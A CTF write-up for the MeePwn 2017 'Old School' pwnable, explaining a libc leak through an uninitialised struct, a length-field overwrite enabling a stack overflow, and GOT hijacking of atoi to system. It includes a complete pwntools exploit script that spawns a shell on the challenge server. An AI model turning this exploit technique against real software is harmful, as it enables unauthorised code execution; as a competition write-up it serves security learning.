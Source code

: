 ```yaml
---
title: MeePwn CTF 2017 -- Old School
tags:
  - CTF
  - Python
  - Pwnable
  - MeePwn
  - BOF
categories:
  - write-ups
date: 2017-07-16 09:56:00
---
```

**Category:** Pwnable

64 bit ELF, Partial RELRO, NX enabled, No PIE, has canary.  
  
<!-- more -->  

```
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

As we can see we can add, edit, delete or show a book. Books are stored in a pointer array `books`, each pointer point to a `book` data structure:  

```c
struct book{
    char book_name[32];
    char author[32];
    int desc_len;
    char desc[256];
}
```

The `books` array and each `book` pointer are all placed on the stack memory.  

The program did not initialize the `book` variable before setting its data. Since there's a libc address ( `<atoi + 0x10>` ) in it, we can leak the libc address by entering 4 characters in the description:  
```
Choice:4
------------ 1 ------------
Name: 11111111
Author: 11111111
Description: AAAA�N���
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

After done some fuzzing, I also found that if we input 32 characters in `book_name` and `author` ( no newline ) , the `desc_len` will be overwritten with our input, and become a large integer. Since when we edit the book description, the length to read is depend on the `desc_len` data, this make us able to overflow the `book->description` buffer and overwrite the pointers in the `books` array !  

So here's how I exploit the service:
1. First leak the libc address
2. Overwrite the `desc_len` data
3. Overflow the `books[0]->desc` buffer and overwrite `books[0]`, let it point to the GOT section
4. Edit `books[0]` and do the GOT hijacking ( hijack atoi to system )


The exploit at the local side worked, but for some unknown reason, the service at the remote side has a different behavior: during the last step of the exploitation, it won't let us input the `author` data, thus failing our exploit. Although we can still pwn it by not entering the author's name, it still took me a while to debug the whole process.  

```python exp_oldschool.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31340
ELF_PATH = "./oldschool_noalarm"
LIBC_PATH = "./libc6_2.23-0ubuntu7_amd64.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_book(book, author, dlen, desc):
    r.sendlineafter("Choice:", "1")
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendlineafter("tion:", str(dlen))
    r.sendafter("tion:", desc)

def edit_book(idx, book, author, desc):
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", str(idx))
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)

def del_book(idx):
    r.sendlineafter("Choice:", "3")
    r.sendlineafter("?", str(idx))

def show_book():
    r.sendlineafter("Choice:", "4")


if __name__ == "__main__":

    r = remote(HOST, PORT)
   
    book, author = "1"*8+"\n", "a"*8+"\n"  
    add_book(book, author, 100, "AAAA\n")
    show_book()
    
    # leak libc
    r.recvuntil("AAAA")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - libc.symbols['atoi'] - 0x10
    log.success("libc_base: "+hex(libc.address))

    del_book(1)
    book, author = "1"*32, "a"*32  
    # make book[0]->size = very big
    # later when we edit book[0]->desc, it will overwrite the pointer of book[0]
    add_book(book, author, 100, "AAAA\n")
   
    # edit book[1]->desc, overwrite book[0]
    # change book[0]->name to got section
    # later we can edit book[0] & do GOT hijacking
    payload = "i"*503 + "\x00" + p32(1) + p64(0x602028) + "\n"
    edit_book(1, "1\n", "1\n", payload)

    # overwrite atoi to system
    payload = "i"*4 + p64(libc.symbols['system']) + "\n"
    book, author, desc = p64(0x400706)[:6:] , p64(0x4006f6)[:6:], payload
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", "1")
    r.sendafter("name:", book)
    # don't know why author won't read input.....
    #r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)
 
    r.sendline("sh")
    r.interactive()

```

flag: `MeePwnCTF{0ld_sch00ld_C4n4ry_1s_0n_th3_st4ck}`





